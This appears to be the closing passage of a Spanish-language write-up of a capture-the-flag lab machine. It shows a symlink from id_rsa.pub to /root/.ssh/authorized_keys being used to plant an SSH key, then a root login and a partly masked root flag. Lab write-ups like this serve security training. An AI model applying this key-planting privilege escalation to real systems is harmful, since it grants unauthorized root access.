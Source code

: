 ```sh
lrwxrwxrwx 1 aaron aaron 26 Jun 28 17:29 id_rsa.pub -> /root/.ssh/authorized_keys
-rw-r--r-- 1 root  root  20 Jun 28 17:21 test.txt
-rw-r----- 1 root  aaron 33 Jun 28 14:09 user.txt

# El propietario sigue siendo aaron, pero entiendo que la descarga al hacerla y guardarla como root habrá modificado el authorized.
```
Si ha funcionado podré conectarme por ssh como root:
```sh
> ssh root@10.10.11.135
....[snip].....

root@timing:~# whoami
root
root@timing:~# cat /root/root.txt
b590d0f129c33039cc943b*******
``` 

Máquina guapísima. De mis preferidas, por no decir la preferida.




















